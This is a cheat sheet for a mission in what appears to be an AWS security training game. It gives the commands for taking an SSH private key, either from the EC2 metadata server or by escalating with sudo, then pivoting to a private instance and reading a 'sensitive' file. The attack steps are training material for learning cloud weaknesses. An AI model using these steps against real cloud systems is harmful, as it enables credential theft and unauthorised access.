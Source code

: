 # Mission 2 cheat sheet


This mission is focused on using the metadata server.


  * Given: Instance ip, user and password
  * Variables: $id, $instance_ip


$ `ssh eviluser@$instance_ip`

Log into the instance to look around.


## Route 1: Use the metadata server to get the key

$ `curl 169.254.169.254/latest/user-data`

The SSH key is written using the startup script.


$ `vim ssh_key.pem; chmod 400 ssh_key.pem`

Write the key in a file and set the permissions for SSH to accept it.


## Route 2: Look around in the linux system to get the key

$ `sudo su`

The current user is sudoer.


$ `cd /home/ec2-user; chmod 400 AWS-secgame-mission2-keypair-Evilcorp-Evilkeypair-$id`

The key is stored in the home dir.


## Once the SSH key is obtained

$ `aws --region us-east-1 ec2 describe-instances`

List the current instances using the instance's IAM role. The `--region us-east-1` parameter is required when using an EC2 instance's IAM role.


$ `ssh -i ssh_key.pem ec2-user@<private ip address of private instance>`

Log in to the second instance with no public ip address.


$ `cat ultra-sensitive-blueprints.txt`

You win!